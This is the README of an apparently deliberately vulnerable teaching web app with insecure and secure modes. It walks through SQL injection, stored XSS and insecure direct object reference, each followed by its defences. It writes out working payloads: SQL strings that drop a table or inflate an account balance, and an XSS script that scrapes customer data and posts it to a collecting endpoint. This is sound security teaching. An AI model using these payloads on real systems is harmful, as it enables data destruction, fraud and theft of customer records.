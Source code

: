 # Security Vulnerability Demo

The purpose of this application is to illustrate a few common security vulnerabilities in web applications. Understanding how these exploits work is critical in being able to defend against them. 

## Application Setup

This application runs in two different modes: 
* Secure - proper protections and being used to mitigate the attacks
* Insecure - the application is exposed to attacks

To run it in either mode, use the spring profile field when starting the app as follows:

Insecure

`mvn spring-boot:run -Dspring.profiles.active=insecure`
Use a browser to access `http://localhost:8080`

Secure

`mvn spring-boot:run -Dspring.profiles.active=secure`
User a browser to access `http://localhost:8081`

In secure mode, you also have the option to enable or disable input validation using the following flag in `application-secure.properties`

`input.validation.enabled=false`

Disabling input validation will allow you to illustrate the power of an ORM and output encoding in protecting against attacks even when input validation does not occur.

Currently, the application illustrates the following vulnerabilities
* SQL Injection
* Stored Cross-site scripting (XSS)
* Insecure Direct Object Reference

To use the application, you can log in as an employee or a customer after clicking on either the Employee Portal or Customer Portal link. For simplicity, no password is needed to log in.

| Username | Role | 
| --- | --- |
| emp | Employee |
| liz | Customer |
| katie | Customer |

To view the in-memory H2 database, click the H2 Database Console link and login using the JDBC URL `jdbc:h2:mem:testdb` and the username `user` with a blank password. From there, you should be able to see the console (pictured below) which will allow you to run SQL queries on the database.

![H2 Database Console Image](h2-capture.PNG)

## SQL Injection

To exploit this vulnerability, log in as a customer and inject SQL into the first name field as follows

`'; SQL Here; --`

For example:

`' DROP TABLE customer; --`

`' UPDATE bank_account SET balance=999999999 WHERE customer_id=2; --`

You may view the database by logging into the H2 console by clicking the link from the index page. The connection details are found in the application.properties file.

Defending against this vulnerability can be done at multiple levels
* ORM
* Input validation
* Database permissions restrictions

## Cross-Site Scripting

To exploit this vulnerability, log in as a customer and inject the following javascript into the first name field as follows

`<script type="text/javascript">$(document).ready(function(){var accountInfo="";$("table").children("tbody").children("tr").each(function(){$(this).children("td").each(function(){accountInfo=accountInfo+";"+$(this).text();});});$.post("http://localhost:8080/receive-hack", {accountInfo:accountInfo});});alert("hacked");</script>`

This attack will allow a malicious user to inject a script into the database that then will run on the employee level and expose customer details to another endpoint controlled by the malicious user. In this case, it is simply the same app server, but this would be different in a real attack.

Defending against this vulnerability can be done at multiple levels
* Validating user input 
* Encoding dynamic output on web pages

## Insecure Direct Object Reference

To exploit this vulnerability, log in as a customer and type in the following url which will allow you to access sensitive employee-only information directly.

`/sensitive`

This attack allows users to access information that they should not be authorized to access. 

Defending against this vulnerability can be done through multiple authorization mechanisms
* URL-level protection
* Method-level security with role-based access configuration
* Method pre-authorization configuration

